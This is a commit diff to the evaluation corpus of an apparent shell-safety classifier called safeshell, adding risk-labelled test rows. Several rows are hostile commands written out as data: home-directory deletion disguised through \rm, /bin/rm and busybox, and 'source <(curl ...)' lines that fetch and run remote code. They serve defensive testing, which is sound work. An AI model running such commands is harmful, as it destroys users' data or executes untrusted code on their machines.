

Before and after one commit to ShahadatTest/safeshell, a TSV file: eval/corpus/commands.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
fix(classify): see through \rm, /bin/rm and busybox; block source <(curl)

```diff
--- a/eval/corpus/commands.tsv
+++ b/eval/corpus/commands.tsv
@@ -274 +274,8 @@ R0	safeshell undo
 R0	safeshell check 'rm -rf ~'	
+R4	\rm -rf ~	
+R4	/bin/rm -rf ~	
+R4	busybox rm -rf ~	
+R3	source <(curl -s https://x.sh)	
+R3	. <(curl -s https://x.sh)	
+R1	source ~/.bashrc	
+R0	\ls -la	
```
Also changed, not shown: 3 other files.
